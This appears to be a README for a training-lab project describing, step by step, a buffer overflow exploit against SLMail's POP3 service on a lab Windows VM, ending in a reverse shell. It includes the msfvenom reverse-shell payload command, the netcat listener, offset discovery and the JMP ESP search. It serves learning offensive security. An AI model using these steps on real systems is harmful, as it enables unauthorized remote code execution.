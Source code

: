 # Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:
- Initialized the BOF machine, accessed the command prompt as an administrator, and ran “slmgr /rearm” and “ipconfig” to determine the machine's IP address as “10.0.2.10”.

- Installed “12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe” on the Windows VM, rebooted it, and created a desktop shortcut for “SLmail.cpl”.

- Opened both “SLmail.cpl” & “Immunity debugger” with administrative rights.

- In “Immunity debugger”, attached the “SLmail.exe” file and ensured it's actively running.

- On my Kali machine, downloaded the fuzzer script labeled “fuzzerScript.py” and stored it in a “BOF” folder on my desktop.

- In the same folder, created and edited a file named “fuzzy.py”. Line 13 requires the target IP address and port number.

- Conducted an nmap scan on the target VM to confirm open ports and noted the active “pop3” protocol.

- Updated “fuzzy.py” with the target IP address and port, then saved changes.

- Navigated to the BOF directory and executed the “fuzzy.py” script using the “python2 fuzzy.py” command.

- Observed the EIP update to “41414141” in Immunity debugger.

- Generated an MSF pattern of 3000 bytes using the “msf-pattern_create -l 3000” command to pinpoint control flow locations.

- Updated the “fuzzy.py” script's buffer with the generated MSF pattern and removed unnecessary loops.

- Reset SLmail.cpl and the Immunity debugger, re-executed the “fuzzy.py” script, and noted the updated EIP value in Immunity debugger.

- Determined the exact memory offset using the “msf-pattern_offset -l 3000 -q 39694438” command.

- Validated the offset by adjusting the buffer in “fuzzy.py” and observing the Immunity debugger's EIP value.

- Incorporated a list of potential bad characters into the “fuzzy.py” buffer to refine the exploit.

- Re-executed the adjusted “fuzzy.py” script and followed the ESP in dump within Immunity debugger to identify and remove any bad characters.

- Identified certain characters as "bad" and removed them from the "fuzzy.py" buffer.

- Re-executed the "fuzzy.py" script with the refined buffer and monitored the outcome in Immunity debugger.

- Searched for mona modules using the “!mona modules” command and identified a suitable dll with “!mona find -s "\xff\xe4" -m SLMFC.DLL”.

<p align="center">
  <img src="" alt="">
</p>

- Crafted a shell code using the “msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"” command.

- Integrated the shell code into “fuzzy.py” and adjusted the buffer accordingly.

- Established a netcat listener on the Kali machine using “nc -lvp 4444”.

- Restarted SLmail, ran the “fuzzy.py” script, and achieved system access with highest-level permissions as confirmed by the “whoami” command.
